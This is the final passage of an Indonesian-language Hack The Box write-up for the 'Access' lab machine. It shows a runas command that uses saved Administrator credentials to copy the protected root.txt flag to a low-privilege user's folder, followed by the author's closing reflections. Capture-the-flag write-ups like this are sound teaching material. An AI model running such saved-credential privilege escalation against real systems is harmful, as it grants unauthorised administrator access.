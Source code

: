Pada kali pertama saya mengerjakan, saya tidak peduli dengan akses yang jauh lebih stabil ketimbang hanya mendapatkan flag, misalnya: root shell; dan hanya mementingkan flag root. Jadi saya tidak berpikir banyak dan langsung melakukan apa yang terpikir di benak saya saat itu (haha).
```
C:\Users\security> runas /user:ACCESS\Administrator /savecred "cmd.exe /c type c:\users\administrator\desktop\root.txt > c:\users\security\something"
```
<br>

<p align="center"> 
<img src="https://takaya1337.github.io/htb/assets/01/18-runas.png">
</p>

Command tersebut akan menulis isi dari **root.txt** (`type` mirip seperti `cat` di Linux) ke tempat dimana user **security** bisa membaca.
<br>

<p align="center"> 
<img src="https://takaya1337.github.io/htb/assets/01/19-root.png">
</p>

Dan akhirnya selesai :D

Box ini merupakan box pertama saya dalam HTB. Meskipun tingkat kesulitannya rendah (_easy_), box ini memberikan banyak pelajaran untuk saya. 

Meskipun anda banyak mendengar ini-itu tentang eksploit yang ada, sebelum anda mengerjakan sendiri anda tidak akan benar-benar mengerti.

Sekian untuk **Access**, silahkan ditunggu write-up selanjutnya.